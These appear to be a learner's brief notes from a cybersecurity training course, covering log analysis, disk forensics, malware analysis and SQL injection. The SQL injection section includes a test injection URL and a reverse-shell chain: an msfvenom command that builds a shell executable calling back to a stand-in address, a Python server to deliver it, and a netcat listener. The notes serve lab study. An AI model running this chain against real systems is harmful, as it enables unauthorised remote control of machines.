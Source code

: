 ## Day 7: Log Analysis
Apache web server logs
- Proxy servers
CLI commands:
- For file handling and text processing.
Linux Pipes
- Allows you to take the **output** of one command and use it as the input for another command
```
cut -d ' ' -f3 access.log | cut -d ':' -f1
```
### Key concept
Logging & malicious traffic

## Day 8: Disk forensics
FTK Imager
- verifying the integrity of a drive / image
- data recovery and forensic analysis
USB drop attack / baiting
### Key concept
Digital Forensics and Incident Response

## Day 9
### Malware Analysis
Sandboxing
dnsSpy ( .NET assembly (C#) debugger and editor)
Static analysis
- https://owasp.org/www-community/controls/Static_Code_Analysis
C# programming language
- .NET Compiled Binaries
C2 servers
Malware Execution Pipeline
### Key concept
Analyzing Malware Samples Safely

## Day 10: SQL injection
SQL - Structured Query Language
```
http://MACHINE_IP/giftresults.php?age='&interests=toys&budget=30
```
PHP - programming language
xp_cmdshell 
- system-extended stored procedure in Microsoft SQL Server that enables the execution of operating system commands and programs from within SQL Server 

Remote Code Execution (RCE)
MSFvenom
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe`
Python server
`python3 -m http.server 8000`
Netcat listener
`nc -lnvp 4444`
### Key concept
SQL injection vulnerabilities
Beware of using `OR 1=1`
